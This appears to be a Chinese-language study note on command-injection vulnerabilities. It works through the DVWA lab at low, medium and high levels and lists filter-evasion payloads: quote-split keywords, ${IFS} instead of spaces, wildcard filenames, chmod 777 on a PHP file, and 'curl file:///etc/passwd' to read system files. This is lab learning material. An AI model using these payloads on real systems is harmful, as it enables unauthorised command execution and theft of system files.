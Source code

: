 # 命令执行漏洞原理

#   命令执行漏洞/命令注入原理

命令网站以操作系统的身份去执行某个命令

system shell_exec exec......



## 小知识——夹带命令

```
ping 127.0.0.1 & ipconfig   ##前者命令执行完后，再执行后一条命令。在linux系统里是几乎同时执行。

ping 127.0.0.1 && ipconfig    ## 在linux系统里是执行完前面再去执行后面。

ping 127.0.0.1 &;& ipconfig    ## 在windows系统里无法执行，但在linux系统里可以，因为;会被解析为空

ping 127.0.0.1 || ipconfig    ## 在linux系统里|| = or，windows也可以执行

ping 127.0.0.1 | ipconfig    ## 在linux系统里|叫管道符，把前面一个命令执行的结果给后面的命令执行，windows里直接执行后面命令
```

——所以可以利用这些在输入参数时夹带些东西。



## 靶场：DVWA——Command Injection

### Low——没有拦截

![image-20220117203316107](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117203316107.png)

![image-20220117203326344](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117203326344.png)

发现允许我们输入参数，它会启动命令来执行。

查看源代码：

![image-20220117203416886](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117203416886.png)

尝试：

![image-20220117204243801](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204243801.png)

![image-20220117204300060](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204300060.png)

可以执行，可以得出对方系统是windows系统



### Medium——有拦截

![image-20220117204420822](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204420822.png)

（考试时没有源码就只能猜）

发现&被拦截了。

那么可以尝试用`|`

![image-20220117204549600](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204549600.png)



### High

![image-20220117204621462](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204621462.png)

发现拦截的`|`后面带了一个空格，那么输入命令时去掉空格就可。

![image-20220117204722763](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%8E%9F%E7%90%86.assets/image-20220117204722763.png)



## 防火墙屏蔽的绕过方法：

#### 1 面对屏蔽关键词：【例如需要用`ls`命令，但被拦截】

```
ping
127.0.0.1 | l's'
```

#### 2.有的文件无法执行，没有权限操作：

```
127.0.0.1 | c'h'mod 777 ../haha.php
127.0.0.1 | chmo\d 777 ../haha.php
```

#### 3.屏蔽了cat tac head tail读取数据：

```
127.0.0.1 | paste ../haha.php
```

#### 4.curl直接读取文件——利用伪协议

```
127.0.0.1;curl file:///etc/passwd
curl+伪协议   #curl类似于命令行的浏览器
```

#### 5.屏蔽php，但是要读取haha.php：

```
127.0.0.1 | c'a't ../haha.ph*     //以ph开头，后面为任意值
127.0.0.1 | c'a't ../haha.ph?     //以ph开头,后面是一个的
```

#### 6.屏蔽空格：

```
127.0.0.1&&cat${IFS}../haha.php
127.0.0.1&&cat$IFS$9../haha.php

用${IFS}、$IFS$9来替代空格【linux系统】
还可以使用：
<> %20 %09 %IFS <
```

#### 7.过滤了cat查文件：

```
tac    # 从最后一行开始显示内容，显示所有内容
more   # 一页页查看内容
less   # 和more类似
head   # 查看头几行
tail   # 查看后几行
nl       # 类似于cat -n，显示行号
taillf    # 类似于tail -f
sort     # 筛选的意思
paste    # 
```



## 关于windows和Linus的写入文件命令

#### `>`

```
> 表示覆盖
>>  追加
```

#### echo

```
echo "haha" > 1.txt
echo haha > 1.txt
echo 'haha' > 1.txt
```

echo后面的所有内容都添加到文本文件里【包含引号】，并且添加完后会自动换行

`>>`在新一行继续追加

【linux里，-e是不换行】

#### set

```
set /p="xxx"
```

set后面的引号里的内容都添加到文本文件里【包含引号】，并且添加完后不会换行

`>>`在原本的内容后面继续追加





